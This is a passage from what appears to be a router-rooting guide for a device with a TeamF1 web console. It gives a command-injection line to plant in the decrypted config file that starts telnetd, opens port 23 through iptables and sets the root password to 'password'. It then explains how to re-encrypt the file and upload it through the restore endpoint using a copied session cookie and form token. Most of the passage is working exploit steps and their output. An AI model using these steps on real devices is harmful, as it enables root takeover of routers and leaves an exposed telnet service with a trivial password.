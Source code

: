 -   We now have the decrypted config file. We can modify it and re-encrypt it.
-   Replace the **FIRST LINE** (should look something like `config.userdb = {}`) of the decrypted config file with the following: `config.userdb = {} os.execute("/usr/sbin/telnetd"); os.execute("/pfrm2.0/bin/iptables -I fwInBypass -p tcp --dport 23 -m ifgroup --ifgroup-in 0x1/0x1 -j ACCEPT"); os.execute("echo -e \"password\npassword\" | passwd root");`
-   This will start a telnetd server, add the iptables rule and set the root password to "password".
-   Using the key we found earlier, we can now re-encrypt the config file as follows:
    -   `openssl aes-128-cbc -pass file:key.txt -in input.txt -out output.enc`
-   Rename the `output.enc` file to what the original config file was named, and add a `BAK_` infront of the original config file name, so that we can use that if something goes wrong (even though a hard reset will fix it).

# Sending the modified config file to the router

-   Go to the router web console (logged in as admin)
-   Go to Administration -> Maintenence
-   Open devtools
-   Go to the Application tab
-   Go to Cookies > `http://<router-ip>`. Example: `http://192.168.1.1`
-   Look for the TeamF1Login cookie and copy the value, this will be used later
-   Go to elements tab
-   Search for `<form name="tf1_frmBackupSaveCurrentSettings" method="post" action="?action=backup">` form element
-   There should be a hidden input element which looks like `<input type="hidden" name="token" value="<some long token>">`
-   Copy the token from the value attribute
-   Open insomnia or postman
-   Create a new HTTP POST request to the router, at `<router-ip>/platform.cgi`. Example: `http://192.168.1.1/platform.cgi`
-   Add the following headers:
    -   `Content-Type: application/x-www-form-urlencoded`
    -   `Cookie: TeamF1Login=<session cookie copied from cookies tab>`
    -   `Referer: http://<router-ip>/platform.cgi?page=factoryDefault.html`
    -   `Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9`
-   Add the following form data:
    -   `button.restore.statusPage: Restore`
    -   `token: <token copied from the form element>`
    -   `file: <the reencrypted config file>`
    -   `thisPage: factoryDefault.html`
-   Send the request, it should take around 3-4 seconds for the response to show up. If its a 401 error, some token expired, get a new token and try again. Rule of thumb: All the tokens refresh as soon as the page is refreshed so make it quick.

-   The response should have

```
Changing password for root
New password:
Bad password: too weak
Retype password:
Password for root changed by root
Changing password for root
New password:
Bad password: too weak
Retype password:
Password for root changed by root
```
